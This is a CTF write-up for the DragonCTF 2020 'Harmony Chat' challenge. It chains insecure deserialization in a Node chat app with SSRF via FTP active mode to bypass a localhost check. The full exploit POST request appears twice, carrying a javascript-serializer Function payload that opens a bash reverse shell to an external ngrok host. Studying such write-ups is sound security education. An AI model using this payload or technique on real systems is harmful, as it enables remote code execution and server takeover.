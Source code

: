 ```yaml
---
layout: post
title: "[DragonCTF 2020] Harmony Chat"
author: Vie
---
```


# TL;DR
1. RCE is achievable via insecure deserialization on ``/csp-report`` endpoint
2. Make a chatlog that looks exactly like a POST request to said endpoint, with a reverse-shell payload in it 
3. Use FTP on active mode to send chatlog to the application's HTTP server
4. reverse-shell. Profit. 


# Harmony Chat
If I told you that the simple act of exchanging messages in a chat app would lead to RCE and opening a reverse-shell, you'd think I went crazy. So why don't we discuss my descent into madness?

**Harmony Chat** was the first web challenge released on DragonCTF 2020. It was a chat app a la Discord, with the ability to register a new user, create a new channel, and invite other users to your channel.

![ImTalkingToMyself](/assets/images/dragonctf2020/harmonychat/harmonychatlogexample.png) 

You exchange messages just as any other chat app, and afterwards you can request for a log containing all the chat messages in that particular channel via HTTP or FTP. 

Requesting for the chatlog via HTTP also fires another POST request to the endpoint ``/csp-report`` which would deliver a report to the server if the chat logs had anything that violated said Content-Security-Policy. The source was provided for us so we could see how that whole interaction plays out locally. 

Requesting for the chatlog via FTP will prompt the application's FTP server to establish a data connection with you and send a file over that contained all your messages in the channel. 

```
vie: hello
vie: hi
vie: how are u today
```


Let's dive into that ``csp-report`` a bit more. It turns out that insecure-deserialization is possible via the application's use of the npm library ``javascript-serializer``. We could leverage how the serializer parses input to achieve RCE (Thanks to Robert Xiao for helping me get a payload that works :P):

![FTPCommunication](/assets/images/dragonctf2020/harmonychat/harmonyconsolelog.png) 

So RCE is achievable through a POST request to ``/csp-report``. We can use this knowledge to have the application deserialize a command to open a reverse-shell for us. One caveat though: 

```js
const isLocal = (req) => {
  const ip = req.connection.remoteAddress
  return ip === "127.0.0.1" || ip === "::1" || ip === "::ffff:127.0.0.1"
}
```
The ``isLocal`` check occurs with every request sent to ``/csp-report`` - checking if the remote IP of the request was in the LAN. We obviously didn't have to worry about this check when we were hitting this endpoint _locally_, but on DragonCTF's server, we would fail this check. So what do we do? 

Let's take a look at the FTP server, which is intended to be used to send text file versions of the chat log to the user. Since the FTP connection stipulates to us the port we should connect to, the server is operating in "passive" mode FTP. Well, what's that? 

Turns out, FTP has 2 specific modes.

- Passive: where the server tells us where to connect to establish a data connection to.

- Active: where we the clients stipulate the IP and port for the server to connect and open a data connection. 

This can solve our ``isLocal`` problem: if we get their FTP server on their LAN to work in **active mode**, and establish a connection to the HTTP server also on their LAN, then we can make that POST request to ``/csp-report`` through the FTP server. This would bypass the ``isLocal`` check since it's their FTP server making that request, on our behalf. AKA - A powerful SSRF attack. 

Now, another problem: the FTP server only ever stores files of chatlogs, and it doesn't have write access, so our POST request is gonna have to be in the form of a chat log. Well, how do we do that? 

Observe how the chatlog file looks: it has the format ``DisplayName``:``message``. The ``:`` is added by the application. This is where I had the idea: if we registered "users" all with different names that matched the request header names and the request body name, we could have those users then communicate the rest of their values as "messages" - and when finished, the resulting chat log should look exactly like the POST request we want to send. 

NOTE: I did this manually. I know there's a way to automate this. I was up for over 24 hours solving this challenge. My brain was mush.

So, we just need to break our POST request by the first ``:``

```
POST /csp-report?: HTTP/1.1
Host: localhost:3380
Content-Length: 386
Content-Type: application/csp-report

{"csp-report": {"blocked-uri": "x", "document-uri": "X", "effective-directive": "X", "original-policy": "X", "referrer": "X", "status-code": "X", "violated-directive": "X", "source-file": {"toString": {"___js-to-json-class___": "Function", "json": "process.mainModule.require(\"child_process\").exec(\"bash -c 'bash -i >& /dev/tcp/4.tcp.ngrok.io/18843 0>&1'\", {stdio:\"inherit\"})"}}}}
```

And we get 5 "users": ``POST /csp-report?``, ``Host``, ``Content-Length``, ``Content-Type`` and ``{"csp-report"``. They will then each message the chat in order as so... 

![ThisShouldBeAutomated](/assets/images/dragonctf2020/harmonychat/chatlogsPOST.png) 


Do you see where I'm getting at with this? Now we need to download the associated chat log file, and we get:

```
POST /csp-report?: HTTP/1.1
Host: localhost:3380
Content-Length: 386
Content-Type: application/csp-report

{"csp-report": {"blocked-uri": "x", "document-uri": "X", "effective-directive": "X", "original-policy": "X", "referrer": "X", "status-code": "X", "violated-directive": "X", "source-file": {"toString": {"___js-to-json-class___": "Function", "json": "process.mainModule.require(\"child_process\").exec(\"bash -c 'bash -i >& /dev/tcp/4.tcp.ngrok.io/18843 0>&1'\", {stdio:\"inherit\"})"}}}}
```

EXACTLY the post request that we want (With a quick sidenote - the newline generated to seperate the request headers from the request body was achieved by sending an empty message to the channel via the console. Again, this was probably easier to do in a script). So now all that's left to do is to connect to the FTP server externally, and tell it to connect to the HTTP server in its LAN, then send over the file we just made above. 

![FTPCommunication](/assets/images/dragonctf2020/harmonychat/ftpcommunication.png) 

- The ``user`` command is expecting a uid of any user in the current session. We technically made 5, so any of their uids work.

- The ``pass`` command can be blank, as the implementation of the application said any password will be accepted. 

- The ``port`` command is what makes the FTP server operate in active mode. The command's arguments are the 4 bytes of the IP, then the 2 remaining values are the port number following this convention: p1, p2 where ``(p1 * 256) + p2`` = full port number. We want to connect to Harmony Chat's localhost at the HTTP server, which is at port 3380. 

- The ``retr`` command takes the name of a file (in this case, the name of the chatlog) and retrieves it, then sends it over the data connection it just established. If we got things right, then the FTP server would have sent our POST request to the HTTP server.

And when we check back in our ngrok instance, we see that we have indeed achieved a shell on harmony-chat-app's server :)

![HarmonyShell](/assets/images/dragonctf2020/harmonychat/harmonyshell.png) 

For a more comprehensive writeup, click [here](https://jamvie.net/posts/2020/11/dragonctf-2020-harmony-chat/)